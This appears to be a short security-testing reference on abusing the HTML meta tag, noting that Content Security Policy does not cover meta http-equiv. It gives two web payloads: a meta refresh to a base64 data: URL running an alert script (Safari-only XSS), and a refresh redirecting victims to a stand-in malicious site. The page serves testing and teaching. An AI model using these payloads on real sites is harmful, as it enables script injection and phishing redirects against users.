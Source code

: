 The [\<meta>](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/meta) tag represents metadata that cannot be represented by other HTML meta-related elements.

Some `<meta>` tags are informational, for example:

```html
<meta name="name" content="content">
```

And some affect the page in some way, for example:

```html
<meta http-equiv="content-security-policy" content="default-src 'none'; base-uri 'self'">
```

Moreover, CSP does not regulate such `<meta>` elements. `<meta http-equiv=...>` is a tag on the page that may emulate a subset of functions normally reserved for page headers. Similarly, some of these functions appear in Javascript, which is already heavily regulated by CSP. Dangerous functions that can be performed by `<meta http-equiv=...>` include:
- set-cookie,
- refresh:
    - redirect to any regular URL,
    - redirect to any data: URL.

> set-cookie instruction was removed from the standard, and is no longer supported at all in Firefox 68 and Chrome 65.

# XSS

We can use the `<meta>` tag with `content = "0; data: "` URI to execute arbitrary Javascript code (works only on safari), for example:

```html
<meta name="language" content="0;data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" http-equiv="refresh"/>
```

Firefox and Chrome will block this:
- Not allowed to navigate top frame to data URL (Firefox)
- Navigation to toplevel data: URI not allowed (Chrome)

# Open redirect

Using a similar payload, you can redirect the victim to an malicious page:

```html
<meta name="language" content="5;http://malicious-website.com" http-equiv="refresh"/>
```

# References

- [\<meta> and \<iframe> tags chained to SSRF](https://medium.com/@know.0nix/hunting-good-bugs-with-only-html-d8fd40d17b38)